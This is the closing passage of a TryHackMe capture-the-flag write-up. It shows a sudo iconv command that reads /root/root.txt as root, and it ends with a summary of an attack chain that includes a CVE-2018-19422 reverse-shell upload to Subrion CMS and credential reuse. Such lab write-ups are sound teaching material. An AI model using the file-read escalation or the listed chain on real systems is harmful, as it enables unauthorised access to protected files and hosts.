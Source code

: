 Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/iconv/) shows that we have the ability to read files as root with **iconv**:

![](images/techsupp0rt19.png)

<br>

Let's try and read the **root.txt** flag:

`LFILE=/root/root.txt`

`sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"`

```
<REDACTED>
```

<br>

With that we've completed this CTF!

![](images/techsupp0rt110.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding and downloading files in an SMB share with **smbclient**
- Using **Cyberchef** to obtain the clear text password from encoded text
- Exploiting the **CVE-2018-19422** vulnerability to upload a **.phar** file to the **Subrion CMS** system for a reverse shell
- Finding credentials in the **wp-config.php** file and using them to login as another user
- Exploiting **SUID** being set on **iconv** to read files as the root user

<br>

Many thanks to:
- [**Vikaran**](https://tryhackme.com/p/Vikaran) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)